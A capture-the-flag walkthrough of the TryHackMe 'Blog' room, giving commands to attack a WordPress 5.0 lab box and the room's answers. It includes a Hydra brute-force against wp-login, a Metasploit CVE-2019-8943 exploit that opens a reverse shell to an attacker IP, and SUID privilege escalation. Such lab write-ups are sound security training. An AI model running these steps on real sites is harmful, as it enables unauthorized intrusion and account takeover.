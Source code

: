 # [Blog](https://tryhackme.com/room/blog)

## Billy Joel made a Wordpress blog!

# Blog

## Billy Joel made a blog on his home computer and has started working on it. It's going to be so awesome! Enumerate this box and find the 2 flags that are hiding on it! Billy has some weird things going on his laptop. Can you maneuver around and get what you need? Or will you fall down the rabbit hole...

### root.txt

1. Add target to hosts file for proper domain resolution

```bash
echo '<TARGET_IP> blog.thm' >> /etc/hosts
```

2. Initial port scan to identify running services

```bash
nmap <TARGET_IP>
```

<img width="724" height="270" alt="SCREEN01" src="https://github.com/user-attachments/assets/d73d1638-f989-4140-b880-5b740048ca5f" />

3. Navigate to `http://blog.thm` and examine the WordPress site. Check for user enumeration via author pages
   - Found two WordPress users: `bjoel` and `kwheel`
   - Performed brute force attack against both account using Hydra
   - Successfully obtained credentials: `kwheel:cutiepie1`

```bash
hydra -l kwheel -P /root/Tools/wordlists/rockyou.txt blog.thm http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=The password you entered for the username" -t 30
```

<img width="723" height="393" alt="SCREEN03" src="https://github.com/user-attachments/assets/492a5387-6fd0-450f-a0cb-7af9db1ca998" />

4. After gaining WordPress admin access with kwheel's credentials, exploit the WordPress Crop Image RCE vulnerability (CVE-2019-8943) to gain reverse shell access

```bash
msfconsole
use exploit/multi/http/wp_crop_rce
set LHOST <ATTACKER_IP>
set RHOST <TARGET_IP>
set USERNAME kwheel
set PASSWORD cutiepie1
exploit
```

5. Search for SUID binaries to discover a custom checker program that can be exploited for privilege escalation

```bash
find / -perm -u=s -type f 2>/dev/null
cd /var/www/wordpress
export admin = '1'
checker
```

6. Retrieve root flag

```bash
cat /root/root.txt
```

---

### user.txt

1. The user flag is located in an unusual location - mounted USB drive rather than the typical home directory

```bash
cat /home/bjoel/user.txt
cat /media/usb/user.txt
```

---

### Where was user.txt found?

1. The user.txt flag was discovered in `/media/usb/` directory

```bash
find / -type f -name 'user.txt' 2>/dev/null
```

---

### What CMS was Billy using?

### What version of the above CMS was being used?

1. Examining the source code of `http://blog.thm/wp-login.php` reveals version information in meta tags and resource URLs
   - **CMS:** WordPress
   - **Version:** 5.0

<img width="1070" height="335" alt="SCREEN02" src="https://github.com/user-attachments/assets/78c8ea15-ef91-49fd-8b70-cd0fb4f3aecd" />

